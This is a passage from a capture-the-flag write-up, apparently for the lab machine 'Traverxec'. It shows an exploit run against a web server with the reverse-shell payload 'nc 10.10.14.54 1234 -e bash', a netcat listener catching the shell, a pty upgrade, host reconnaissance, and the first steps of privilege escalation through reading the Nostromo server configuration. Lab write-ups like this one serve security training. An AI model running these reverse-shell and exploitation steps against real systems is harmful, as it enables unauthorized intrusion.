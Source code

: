 - EXP:

```console
$ python exp.py 10.10.10.165 80 'nc 10.10.14.54 1234 -e bash'
[+] Connecting to target
[+] Sending malicious payload
```

```console
$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.54] from (UNKNOWN) [10.10.10.165] 39172
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@traverxec:/usr/bin$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@traverxec:/usr/bin$ uname -a
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64 GNU/Linux
www-data@traverxec:/usr/bin$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:43:8c brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.165/24 brd 10.10.10.255 scope global eth0
       valid_lft forever preferred_lft forever
```

## Privilege Escalation

### www-data -> david

- config file enum
  - AUTH: htpasswd
  - HOMEDIRS: public_www

```console
www-data@traverxec:/var/nostromo/conf$ cat nhttpd.conf
# MAIN [MANDATORY]

servername              traverxec.htb
serverlisten            *
serveradmin             david@traverxec.htb
serverroot              /var/nostromo
servermimes             conf/mimes
docroot                 /var/nostromo/htdocs
docindex                index.html

# LOGS [OPTIONAL]

logpid                  logs/nhttpd.pid

# SETUID [RECOMMENDED]

user                    www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess                .htaccess
htpasswd                /var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons                  /var/nostromo/icons
```